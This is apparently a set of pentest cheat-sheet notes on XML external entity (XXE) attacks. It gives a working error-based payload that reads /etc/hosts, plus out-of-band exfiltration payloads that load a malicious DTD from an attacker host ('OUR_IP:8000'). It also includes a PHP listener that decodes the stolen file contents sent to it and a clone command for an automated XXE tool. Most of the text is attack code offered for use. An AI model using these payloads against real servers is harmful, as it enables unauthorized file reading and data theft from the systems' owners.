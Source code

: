 ### Error Based XXE
* XML does not return any output
* If the web application displays runtime errors and does not have exception handling, then we can use this flaw to read the output. 

 Payload in xxe.dtd:
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

```shell
python3 -m http.server 8000
```

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

## Blind Data Exfiltration

### Out-of-band (OOB) Data Ex-filtration
* Make the web page send the request to our web server 
* Loads the file into base64 and sends it to our web server
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

PHP Script that automatically decodes the base64:
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
Save to index.php

```shell
php -S 0.0.0.0:8000
```

### Automated OOB Exfilitration
[XXEInjector](https://github.com/enjoiz/XXEinjector)
```shell
git clone https://github.com/enjoiz/XXEinjector.git
```

